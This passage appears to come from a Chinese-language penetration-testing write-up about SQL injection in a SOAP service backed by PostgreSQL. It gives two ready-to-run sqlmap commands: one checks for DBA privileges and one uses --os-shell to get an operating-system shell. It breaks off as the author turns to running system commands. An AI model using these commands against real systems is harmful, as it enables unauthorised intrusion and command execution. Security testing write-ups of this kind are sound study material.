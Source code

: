 ### GetShell

后端数据库为 postgresql，所以我们可以尝试通过 Sqlmap 的--os-shell 来获取 shell 权限，不过在此之前我们需要先检查当前用户的权限是否为 DBA 权限

```bash
sqlmap -r soap.txt -p username --dbms postgresql --is-dba
```

[![](assets/1705886707-ccdd3c38f85dbd4106d2ae7b223b4588.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240120120640-50b1b192-b749-1.png)  
从上面的执行结果可以看到属于 dba 权限，随后我们直接通过--os-shell 获取权限

```bash
sqlmap -r soap.txt -p username --dbms postgresql --os-shell --batch
```

[![](assets/1705886707-c232f61a453580b06e81d2dcfe91d370.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240120120716-65df0902-b749-1.png)  
紧接着我们可以执行各类系统命令：  